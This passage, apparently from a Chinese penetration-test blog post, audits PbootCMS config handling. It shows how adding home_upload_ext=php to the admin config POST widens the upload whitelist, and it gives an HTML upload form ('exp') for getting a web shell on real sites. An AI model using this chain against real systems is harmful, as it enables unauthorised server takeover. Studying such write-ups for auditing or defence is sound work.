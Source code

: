 ![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

Config方法就是返回对应的配置项，配置项内容通过self::loadconfig()加载。

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

配置项的一部分来至于md5(config).php文件，只要我们控制了这个文件中的home\_upload\_ext选项，也就控制了允许上传的后缀白名单了。

修改配置文件的地方。

文件：apps\\admin\\controller\\system\\ConfigController.php

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

将$\_POST遍历出来的键传递进了$this->moddbconfig方法。

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

程序会首先将我们修改的配置内容更新到ay\_config数据表中去，然后再将数据表中的内容写入到md5(config).php文件中，造成我们可以添加任何类型的后缀文件。

#### Getshell利用

登录后台->全局配置->配置参数->立刻提交，使用burp抓包。

在POST数据中添加一个：home\_upload\_ext=php 字段即可。

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

成功将其写入到文件。

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

设置好了允许的上传白名单后，我们就可以通过上传php达到getshell了。

上传文件exp：upload.html

```
`<!DOCTYPE html>``<html lang="en">``<head>` `<meta charset="UTF-8">` `<title>pbootcms文件上传</title>``</head>``<body>``<form action="http://xxxxx/?member/upload" method="post" enctype="multipart/form-data">` `<input type="file" >` `<input type="submit" >``</form>``</body>``</html>`
```

将exp保存到html文件，修改对应的域名直接上传即可，文件上传证明。

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

在本地将流程成功走了一遍后，利用到项目网站上也很顺利，直接就getshell了，成功交差，又可以愉快的喝冰阔乐了。

  

**总结**

整个流程从网站获取到指纹，然后找到源码审计，在审计过程中还是花费了较多时间，主要在前台审计的入口点寻找，和绕过过滤注入出数据，当时一度认为没办法利用，还好当时没放弃，然后慢慢一步一步的啃，终于还是啃下来了。  

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)